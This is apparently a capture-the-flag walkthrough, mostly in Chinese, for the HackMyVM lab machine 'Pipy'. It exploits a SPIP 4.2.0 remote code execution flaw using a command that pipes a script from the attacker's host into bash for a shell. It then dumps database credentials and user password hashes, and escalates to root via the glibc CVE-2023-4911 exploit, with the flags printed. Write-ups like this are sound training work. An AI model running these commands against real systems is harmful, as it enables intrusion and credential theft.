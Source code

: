 # Pipy

2025.03.27 https://hackmyvm.eu/machines/machine.php?vm=Pipy

[video](https://www.bilibili.com/video/BV1xiZuYpEF5/?spm_id_from=333.1387.homepage.video_card.click&vd_source=aed2f374c732513d2e535afafb1fd2ec)

## Ip

192.168.5.39

## Scan

```
PORT   STATE SERVICE
22/tcp open  ssh
80/tcp open  http
```

cms 版本 SPIP 4.2.0 有 RCE https://www.exploit-db.com/exploits/51536

```
python3 51536.py -u http://192.168.5.39/ -c 'curl http://192.168.5.3/shell/5.3/8888.sh|bash' -v
```

发现数据库连接信息：

```
www-data@pipy:/var/www/html$ cat ./config/connect.php
<?php
if (!defined("_ECRIRE_INC_VERSION")) return;
defined('_MYSQL_SET_SQL_MODE') || define('_MYSQL_SET_SQL_MODE',true);
$GLOBALS['spip_connect_version'] = 0.8;
spip_connect_db('localhost','','root','dbpassword','spip','mysql', 'spip','','');
```

进入到数据库 root:dbpassword ，拿到用户表：

```
MariaDB [spip]> select id_auteur, nom, bio, pass from spip_auteurs;
+-----------+--------+-----+--------------------------------------------------------------+
| id_auteur | nom    | bio | pass                                                         |
+-----------+--------+-----+--------------------------------------------------------------+
|         1 | Angela |     | 4ng3l4                                                       |
|         2 | admin  |     | $2y$10$.GR/i2bwnVInUmzdzSi10u66AKUUWGGDBNnA7IuIeZBZVtFMqTsZ2 |
+-----------+--------+-----+--------------------------------------------------------------+
```

切换到 angela 用户，拿到 user flag:

```
angela@pipy:~$ cat user.txt
dab37650d43787424362d5805140538d
```

glibc 存在内核漏洞 https://github.com/leesh3288/CVE-2023-4911 将 zip 下载到目标机器，解压 make 等待，最终拿到 root 权限。

root flag：

```
# cat root.txt
ab55ed08716cd894e8097a87dafed016
```
